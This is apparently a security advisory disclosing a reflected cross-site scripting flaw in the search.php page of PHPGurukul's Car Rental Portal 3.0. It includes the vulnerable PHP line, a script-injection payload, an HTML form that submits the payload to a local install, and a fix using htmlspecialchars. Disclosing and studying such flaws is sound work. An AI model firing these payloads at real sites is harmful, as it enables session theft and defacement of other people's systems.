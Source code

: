 # [XSS vulnerability] found in Car Rental Portal 3.0 - (search.php)


Affected Project: **Car Rental Portal**

Exploit Author: Dimitris Chatzidimitris

Web: Php

Vendor: PHPGurukul

Official Website: (https://phpgurukul.com/car-rental-project-php-mysql-free-download/)

Version: 3.0

Updated: 05 June 2024

Vulnerable file: /search.php

Injection parameter: `searchdata`

<br />

Size: 16.0 MB

Sha256: 8a9ad60cf5f36e2c3c4a1ce6fed7438bb458a2d2489e2a1be60dbbdd481fdf8b

<br />

## Vulnerability Description:
The issue arises because the `searchdata` parameter from the URL is being directly inserted into the value attribute of an HTML input element without proper sanitization. 
This allows an attacker to inject arbitrary HTML or JavaScript code leading to an XSS attack.

<br />

## Vulnerable code:
```
<h1>Search Result of keyword "<?php echo $_POST['searchdata'];?>"</h1>
```

<br />

## Injection Payload Tested:

We set `searchdata` to:
```
"><script>alert('XSS')</script>
```

<br />

## Execution:

When the browser parses this through a POST request, it executes the `<script>alert('XSS')</script>` code, resulting in a popup displaying `"XSS"`.

<br />

## Demonstration:

Below is how `search.php` looks like:

<br />

![search.php](https://i.postimg.cc/mg6Vs6Vd/1.png)

<br />

As it is a POST request we need to use a file `test_form.html` with the following content to be able to trigger the XSS popup:
```
<!DOCTYPE html>
<html>
<head>
    <title>Search Form</title>
</head>
<body>
    <form action="http://localhost:8000/carrental/search.php" method="POST">
        <input type="text" name="searchdata" value='"><script>alert("XSS")</script>'>
        <input type="submit" value="Search">
    </form>
</body>
</html>
```

Then we have to open it on the browser:

For example:
`file:///home/username/Desktop/test_form.html`

<br />

![payload](https://i.postimg.cc/nVYkzL09/2.png)

<br />

After submitting the payload using POST with the vulnerable parameter `searchdata` and the XSS payload `"><script>alert('XSS')</script>`, XSS is triggered:

<br />

![xss](https://i.postimg.cc/t4fdfnCw/3.png)

<br />

## Recommendation for Preventing XSS:

To fix this vulnerability, we must always sanitize user inputs before rendering them in the HTML. We can use functions like htmlspecialchars() in PHP to encode special characters.

<br />

Example:
```
// Retrieve the search data using GET
$searchData = isset($_GET['searchdata']) ? $_GET['searchdata'] : '';

// Escape the output to prevent XSS
$safeSearchData = htmlspecialchars($searchData, ENT_QUOTES, 'UTF-8');
```

<br />

> One Click Can Change Everything: Be Secure.
